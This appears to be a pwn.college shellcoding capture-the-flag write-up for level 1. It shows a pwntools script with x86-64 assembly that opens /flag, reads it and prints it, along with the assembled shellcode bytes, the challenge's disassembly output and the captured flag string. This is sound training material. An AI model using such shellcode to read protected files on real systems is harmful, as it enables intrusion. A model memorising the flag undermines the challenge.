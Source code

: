 # LEVEL 1
Referred from what Yan from pwncollege taught in the intro.
Wrote the following python script with the assembly code of how I wanna use the `sendfile` command as per the chal desc.
```
from pwn import *

context.arch='amd64'
context.os='linux'

asmc='''
    mov rax, 0x00000067616c662f         
    push rax                            

    mov rdi, rsp                                   
    mov rsi, 0                          
    mov rax, 2                          
    syscall

    mov rdi, rax                        
    mov rsi, rsp                        
    mov rdx, 1000                       
    mov rax, 0                          
    syscall

    mov rdi, 1                          
    mov rsi, rsp                        
    mov rdx, rax                        
    mov rax, 1                          
    syscall

    mov rdi, 40                        
    mov rax, 60                         
    syscall
'''

sc=asm(asmc)
print(sc)

```
`echo -en 'H\xb8/flag\x00\x00\x00PH\x89\xe7H\xc7\xc6\x00\x00\x00\x00H\xc7\xc0\x02\x00\x00\x00\x0f\x05H\x89\xc7H\x89\xe6H\xc7\xc2\xe8\x03\x00\x00H\xc7\xc0\x00\x00\x00\x00\x0f\x05H\xc7\xc7\x01\x00\x00\x00H\x89\xe6H\x89\xc2H\xc7\xc0\x01\x00\x00\x00\x0f\x05H\xc7\xc7(\x00\x00\x00H\xc7\xc0<\x00\x00\x00\x0f\x05' ` was the shellcode to be given to the chall.
```
Reading 0x1000 bytes from stdin.

This challenge is about to execute the following shellcode:

      Address      |                      Bytes                    |          Instructions
------------------------------------------------------------------------------------------
0x00007ffecc2d2370 | 48 b8 2f 66 6c 61 67 00 00 00                 | movabs rax, 0x67616c662f
0x00007ffecc2d237a | 50                                            | push rax
0x00007ffecc2d237b | 48 89 e7                                      | mov rdi, rsp
0x00007ffecc2d237e | 48 c7 c6 00 00 00 00                          | mov rsi, 0
0x00007ffecc2d2385 | 48 c7 c0 02 00 00 00                          | mov rax, 2
0x00007ffecc2d238c | 0f 05                                         | syscall
0x00007ffecc2d238e | 48 89 c7                                      | mov rdi, rax
0x00007ffecc2d2391 | 48 89 e6                                      | mov rsi, rsp
0x00007ffecc2d2394 | 48 c7 c2 e8 03 00 00                          | mov rdx, 0x3e8
0x00007ffecc2d239b | 48 c7 c0 00 00 00 00                          | mov rax, 0
0x00007ffecc2d23a2 | 0f 05                                         | syscall
0x00007ffecc2d23a4 | 48 c7 c7 01 00 00 00                          | mov rdi, 1
0x00007ffecc2d23ab | 48 89 e6                                      | mov rsi, rsp
0x00007ffecc2d23ae | 48 89 c2                                      | mov rdx, rax
0x00007ffecc2d23b1 | 48 c7 c0 01 00 00 00                          | mov rax, 1
0x00007ffecc2d23b8 | 0f 05                                         | syscall
0x00007ffecc2d23ba | 48 c7 c7 28 00 00 00                          | mov rdi, 0x28
0x00007ffecc2d23c1 | 48 c7 c0 3c 00 00 00                          | mov rax, 0x3c
0x00007ffecc2d23c8 | 0f 05                                         | syscall

Executing shellcode!

pwn.college{YvajjOW2LxGo54Yw6pt32rm-9hH.01NxIDL3AjN1czW}
```

> FLAG -> pwn.college{YvajjOW2LxGo54Yw6pt32rm-9hH.01NxIDL3AjN1czW}
